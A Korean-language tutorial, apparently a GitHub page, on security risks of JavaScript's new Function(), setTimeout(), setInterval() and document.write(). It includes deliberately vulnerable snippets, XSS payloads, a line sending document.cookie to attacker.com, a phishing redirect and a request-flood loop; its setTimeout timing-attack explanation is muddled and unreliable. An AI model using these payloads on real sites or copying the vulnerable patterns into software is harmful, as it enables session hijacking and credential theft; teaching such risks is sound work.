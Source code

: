 ## ☪️ 동적 코드 실행 함수 (Dynamic Code Execution Functions)
new Function(), setTimeout(), setInterval(), document.write()

### **1. `new Function()`을 통한 코드 인젝션 공격**

#### **개념**:

`new Function()`은 **동적으로 JavaScript 코드를 실행**하는 강력한 함수입니다. 이 함수는 문자열을 받아서 실행 가능한 코드로 변환해 실행하는 방식입니다. 그런데 이 방식이 문제를 일으킬 수 있습니다. **외부 입력을 코드로 실행**하는 경우 **코드 인젝션** 공격에 취약해집니다.

#### **웹 해킹 관점에서의 위험**:

* **코드 인젝션 (Code Injection)**: 외부 사용자가 입력한 값을 **JavaScript 코드로 실행**하는 방식은 매우 위험합니다. 악성 코드가 삽입될 수 있기 때문입니다. 공격자는 이를 악용하여 **쿠키 탈취**, **세션 하이재킹**, **크로스 사이트 스크립팅(XSS)** 공격을 수행할 수 있습니다.

#### **공격 예시**:

**XSS (Cross-Site Scripting) 공격**

* 예를 들어, 웹 애플리케이션이 사용자로부터 **댓글**을 입력받고 이를 **동적으로 출력**하는 기능을 제공한다고 합시다. 사용자가 입력한 댓글을 `new Function()`을 통해 처리하는 코드가 있다고 가정해보겠습니다.

  **취약한 코드**:

  ```javascript
  let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
  let dynamicComment = new Function(userComment);  // 입력된 댓글을 코드로 실행
  dynamicComment();  // 사용자 입력을 실행
  ```

  이 코드에서, 만약 사용자가 **악성 스크립트**를 입력한다면, 그 코드는 그대로 실행됩니다. 예를 들어, 사용자가 입력란에 `alert(document.cookie)`라는 코드를 삽입했다고 가정해봅시다. 이 경우, **사용자의 쿠키**가 알림창으로 출력되며 공격자는 이를 **탈취**할 수 있습니다.

  **악성 코드 예시**:

  ```javascript
  alert(document.cookie);  // 쿠키 탈취
  ```

  이 코드는 공격자가 웹 애플리케이션에서 **사용자의 쿠키**를 알아낼 수 있게 합니다. 이를 통해 공격자는 **세션 하이재킹**을 시도하거나, 다른 민감한 정보를 탈취할 수 있습니다.

---

### **2. `setTimeout()`을 통한 타이밍 공격**

#### **개념**:

`setTimeout()`은 **특정 시간 후에 한 번 실행되는** 비동기 함수입니다. 주로 지연된 실행을 위해 사용되며, 설정된 시간이 지나면 **콜백 함수**가 실행됩니다. 이 함수는 **비동기적**으로 동작하기 때문에 주어진 시간에 맞춰서 **타이밍을 조절**할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **타이밍 공격 (Timing Attacks)**: 공격자는 `setTimeout()`을 활용하여 **서버의 응답 시간**을 분석하거나 **사용자의 인증 정보를 추측**할 수 있습니다. 특히 인증 시스템에서는 **성공적인 로그인**과 **실패한 로그인**의 응답 시간이 다를 수 있기 때문에 이를 악용하여 **패스워드**나 **사용자 이름**을 유추할 수 있습니다.

#### **공격 예시**:

* 예를 들어, 로그인 페이지에서 `setTimeout()`을 사용하여 응답을 지연시키는 방식이 있을 수 있습니다. 공격자는 로그인 성공과 실패의 시간을 분석해, **비밀번호 추측**이나 **사용자 정보**를 유추할 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setTimeout(() => {
    // 로그인 성공 시 수행되는 동작
    alert('로그인 성공');
  }, 500);  // 500ms 후에 실행
  ```

  이 코드는 로그인 성공 시 **500ms** 동안 지연되는데, 공격자는 여러 번 로그인 시도를 통해 **응답 시간**의 차이를 분석하고 로그인 성공 여부를 알아낼 수 있습니다.


---

### **3. `setInterval()`을 통한 서비스 거부(DoS) 공격**

#### **개념**:

`setInterval()`은 주어진 시간 간격으로 **지속적으로 함수를 반복 실행**하는 함수입니다. 주기적으로 특정 작업을 수행할 때 유용하지만, 이를 잘못 사용하면 **서버 자원 소모**나 **서비스 거부(DoS) 공격**을 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **서비스 거부(DoS)**: 공격자는 `setInterval()`을 통해 서버에 **과도한 요청**을 반복적으로 보내거나, 클라이언트에서 불필요하게 자원을 소모시킬 수 있습니다. 이렇게 하면 서버가 과부하에 걸리거나 클라이언트 측에서 **리소스를 낭비**하게 되어 **서비스 거부 상태**에 빠질 수 있습니다.

#### **공격 예시**:

* 예를 들어, 클라이언트가 `setInterval()`을 사용하여 서버에 **주기적으로** 요청을 보내게 된다면, 서버는 과도한 요청을 처리해야 하므로 자원이 고갈되어 **서비스 거부(DoS)** 상태에 빠질 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setInterval(() => {
    fetch('https://example.com/api');  // 서버에 계속해서 요청 보내기
  }, 10);  // 10ms마다 요청을 보냄
  ```

  이 코드는 **10ms마다** 서버에 계속 요청을 보내게 되며, 서버는 **과도한 요청 처리**로 인해 **리소스를 소모**하게 됩니다. 결국 서버는 정상적인 요청을 처리하지 못하고 **서비스가 마비**될 수 있습니다.

#### **취약점 해결**:

* **요청 간격을 제한**하고, 서버에 **불필요한 반복 요청**이 발생하지 않도록 주의해야 합니다. 또한 **API 요청에 대한 제한**(rate limiting)을 설정하여, 클라이언트에서 과도한 요청을 보내지 못하도록 방지해야 합니다.

---

### **4. document.write()`을 통한 DOM 공격**

#### **개념**:

`document.write()`는 **Java스크립트로 동적으로 HTML 콘텐츠를 삽입**할 수 있는 함수입니다. 이 함수는 주로 **페이지 로딩 중**에 콘텐츠를 삽입하거나 수정하는 데 사용됩니다. 그러나 **동적으로 HTML을 삽입**할 수 있는 강력한 기능을 제공하지만, 그만큼 **보안상 심각한 취약점을 초래할 수 있습니다**. 주로 **XSS (Cross-Site Scripting)** 공격이나 **페이지 위조** 같은 문제를 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **페이지 내용 덮어쓰기**:
  `document.write()`는 페이지 로딩이 완료된 후에는 **문서의 기존 콘텐츠를 덮어쓸** 수 있습니다. 만약 사용자 입력이 포함되어 있다면, **기존 콘텐츠가 모두 삭제**되고 새로운 콘텐츠로 바뀌게 됩니다. 이로 인해 **사용자 경험**에 심각한 영향을 미칠 수 있습니다.

* **스크립트 삽입**:
  `document.write()`는 **HTML 요소를 삽입**하기 위해 사용되며, 사용자가 입력한 값이 HTML 코드로 삽입되는 방식입니다. 이로 인해 **HTML 태그나 스크립트**가 삽입되면, 악성 코드가 실행될 수 있습니다.

#### **공격 예시**:

웹 애플리케이션에서 **사용자 댓글**을 입력받아 페이지에 동적으로 출력하는 기능을 제공한다고 합시다. 이때 \*\*`document.write()`\*\*로 사용자의 댓글을 페이지에 삽입하는 방식을 사용하고 있다고 가정합니다.

```javascript
let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
document.write(userComment);  // 입력된 값을 그대로 페이지에 삽입
```

#### **악성 입력**

악의적인 사용자가 `document.write()`의 입력 필드에 JavaScript 코드를 삽입할 수 있다면, 이는 **XSS 공격**으로 이어질 수 있습니다. 예를 들어, 공격자가 다음과 같이 입력한다고 가정해봅시다:

```html
<script>alert('XSS Attack!');</script>
```

이 코드가 `document.write()`에 의해 실행되면, 웹 페이지에 **알림창이 뜨게 되며**, 이는 공격자가 **악성 스크립트를 실행**시키는 방법입니다.

#### **결과**

* **쿠키 탈취**: 공격자는 \*\*`document.cookie`\*\*를 이용해 사용자의 **세션 쿠키**를 탈취할 수 있습니다.

  ```javascript
  <script>document.location='https://attacker.com?cookie=' + document.cookie;</script>
  ```

  위와 같은 스크립트가 삽입되면, 사용자의 쿠키가 공격자에게 전송되어 세션 하이재킹 공격에 사용될 수 있습니다.

* **피싱 공격**: 공격자는 **가짜 로그인 페이지**를 삽입해 사용자가 로그인 정보를 입력하게 유도할 수 있습니다.

  ```html
  <script>document.location="https://fake-login.com"</script>
  ```

  이 스크립트는 사용자를 **피싱 사이트**로 리디렉션시켜 **사용자 정보를 탈취**할 수 있습니다.
